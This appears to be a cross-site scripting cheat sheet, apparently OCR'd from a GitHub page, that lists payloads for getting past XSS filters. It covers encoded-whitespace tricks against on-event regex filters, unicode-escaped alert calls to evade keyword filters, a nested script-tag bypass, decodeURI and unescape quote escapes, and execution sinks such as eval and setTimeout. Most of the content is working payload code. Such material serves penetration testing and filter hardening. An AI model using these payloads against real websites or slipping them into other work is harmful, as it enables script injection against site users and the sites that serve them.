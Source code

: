 ### XSS Mutation
- http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote
- https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex Blacklist Filtering
-> Filter blocking on - Bypass  
`(on\w+\s*=)`  
```
<svg onload%09=alert(1)> 
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>
```  

### Keyword Based in Filter
#### Alert Blocked - Bypass
```
<script>\u0061lert(1)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>eval("\u0061lert(1)")</script>  
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

#### Removing script Tag - Bypass
```
<sCR<script>iPt>alert(1)</SCr</script>IPt>
```

### Scaping Quote
#### Methods
-> String.fromCharCode()  
-> unescape  

e.g.  
-> decode URI + unescape method (need eval)  
```
decodeURI(/alert(%22xss%22)/.source)
decodeURIComponent(/alert(%22xss%22)/.source)
```  
 
### Other bypass techniques
-> unicode  
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)"/>
```

Add execution sink:  
-> eval  
-> setInterval  
-> setTimeout  
